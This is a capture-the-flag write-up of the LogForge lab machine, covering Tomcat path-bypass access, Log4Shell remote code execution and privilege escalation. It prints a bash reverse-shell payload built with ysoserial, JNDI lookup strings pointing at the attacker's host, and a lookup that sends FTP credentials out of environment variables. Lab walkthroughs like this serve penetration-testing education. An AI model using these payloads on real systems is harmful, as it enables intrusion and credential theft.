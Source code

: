 # LogForge

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.153
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-11 02:50 EDT
Nmap scan report for 10.129.96.153
Host is up (0.017s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
21/tcp   filtered ftp
22/tcp   open     ssh
80/tcp   open     http
8080/tcp filtered http-proxy
```

This is a UHC Box, so it should be somewhat fun.

### Web Enum --> Proxy Bypass

Port 80 just shows a simple image:

<figure><img src="../../../.gitbook/assets/image (639).png" alt=""><figcaption></figcaption></figure>

We can do a quick `gobuster` scan to find out more:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.96.153/ -x php,html,txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.153/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2023/05/11 02:51:43 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 302) [Size: 0] [--> /images/]
/admin                (Status: 403) [Size: 278]
/manager              (Status: 403) [Size: 278]
```

The `/manager` endpoint is like Tomcat, and it does not request credentials for us to enter. We can do the bypass exploit by accessing `test/..;/manager`.

<figure><img src="../../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>

We can login with `tomcat:tomcat` and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (619).png" alt=""><figcaption></figcaption></figure>

### WAR Fail

I tried to upload stuff using the standard WAR reverse shell, but it doesn't work. We would get an error message like this:

<figure><img src="../../../.gitbook/assets/image (622).png" alt=""><figcaption></figcaption></figure>

The box name and the recent release of Log4j was a hint by the creator to try and make `log4shell` work.

### Log4j RCE

I'm following Hacktricks page on Log4Shell to execute these. We have to use these repositories to gain a shell:

{% embed url="https://github.com/pimps/JNDI-Exploit-Kit.git" %}

{% embed url="https://github.com/pimps/ysoserial-modified.git" %}

After downloading these, we have to run these commands:

{% code overflow="wrap" %}
```bash
$ java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.13/4444 0>&1' > shell.ser
$ java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 10.10.14.13:1389 -P shell.ser
```
{% endcode %}

Then, within the Tomcat interface, we just need to send this string in the XML configuration:

```
${jndi:ldap://10.10.14.13:1389/u3rmld}
```

Afterwards, we would get a shell as `tomcat`.&#x20;

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.96.153] 49842
bash: cannot set terminal process group (776): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@LogForge:/var/lib/tomcat9$ 
```

### Java Version

I should note that some versions of Java doesn't work with `ysoserial`. In this case, we can download the right Java version from here:

{% embed url="https://jdk.java.net/archive/" %}

For this machine, I specifically used Java 11.0.2 to make it work.&#x20;

## Privilege Escalation

### FTP Env Leak

I noticed that FTP was open and accessible from inside the machine. Log4j can also be used to leak environment variables, so we can attempt that.&#x20;

```
tomcat@LogForge:/var/lib/tomcat9$ netstat -tulpn
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        1      0 127.0.0.1:44690         127.0.0.1:8080          CLOSE_WAIT  -                   
tcp        0      2 10.10.11.138:49842      10.10.14.12:1337        ESTABLISHED 9577/bash           
tcp        1      0 127.0.0.1:44698         127.0.0.1:8080          CLOSE_WAIT  -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      776/java            
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

If we analyse the process, we can see FTP is running some kind of JAR file:

```
tomcat@LogForge:/var/lib/tomcat9$ ps -ef | grep -i ftp
    993 ?        Sl     0:26 java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
```

We can download this to our machine, and then reverse engineer it using `jd-gui`. There is a part where **environment variables** are being passed around.&#x20;

```java
private String validUser = System.getenv("ftp_user");

private String validPassword = System.getenv("ftp_password");
```

Using `ysoserial` agian, we could potentially leak these by constructing a certain string.&#x20;

{% embed url="https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/" %}

Following th above, we can use this to leak the credentials:

```
${jndi:ldap://10.10.14.13/user:${env:ftp_user}:password:${env:ftp_password}}
```

The credentials can be viewed within `wireshark`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (6).png" alt=""><figcaption></figcaption></figure>

Using this password, we can `su` to `root`.&#x20;
